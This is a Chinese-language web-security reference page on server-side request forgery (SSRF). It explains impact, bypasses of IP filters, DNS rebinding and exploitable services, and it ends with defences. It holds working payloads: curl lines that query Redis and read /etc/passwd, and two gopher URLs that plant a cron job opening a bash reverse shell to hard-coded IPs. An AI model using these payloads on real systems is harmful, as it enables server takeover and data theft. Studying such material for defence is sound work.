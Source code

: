 SSRF
================================

漏洞危害
--------------------------------
- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息
- 攻击运行在内网或本地的应用程序（比如溢出）
- 对内网Web应用进行指纹识别，通过访问默认文件实现
- 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）
- 利用File协议读取本地文件

利用方式
--------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

    curl -vvv 'dict://127.0.0.1:6379/info'

    curl -vvv 'file:///etc/passwd' 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 

相关危险函数
--------------------------------
- ``file_get_contents()``
- ``fsockopen()``
- ``curl_exec()``

过滤绕过
--------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：


- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

比如 ``xip.io`` 提供了一个方便的服务，当用户访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

但是由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，这种方式可以通过短地址的方式来绕过。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

可能的利用点
--------------------------------
- ftp、ftps （FTP爆破）
- sftp
- tftp（UDP协议扩展） 
- dict
- gopher
- ldap
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs （连接SMB） 
- telnet 
- http、https - 内网服务探测 
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2 命令执行 
- counchdb WEB API远程命令执行 
- mongodb SSRF 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行

防御方式
--------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

参考链接
--------------------------------
- `SSRF漏洞分析与利用 <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `谈一谈如何在Python开发中拒绝SSRF漏洞 <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
- `SSRF Tips <http://blog.safebuff.com/2016/07/03/SSRF-Tips/>`_
